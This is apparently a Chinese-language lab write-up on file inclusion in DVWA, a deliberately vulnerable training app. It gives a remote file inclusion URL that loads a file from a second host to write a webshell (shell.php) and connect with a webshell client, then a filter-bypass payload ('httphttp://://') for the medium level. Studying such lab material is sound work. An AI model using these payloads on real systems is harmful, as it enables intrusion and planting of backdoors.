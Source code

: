 192.168.83.146/dvwa/vulnerabilities/fi/?page=http://192.168.83.145/1.txt

生成shell.php，使用菜刀连接

## 中安全级别

只加了一个把http https转换成 空字符串 意味着不能远程包含，包含时路径更改为

```sh
192.168.83.146/dvwa/vulnerabilities/fi/?page=httphttp://://192.168.83.145/1.txt
```

## 高级

写死了 必须是include.php 那就没办法了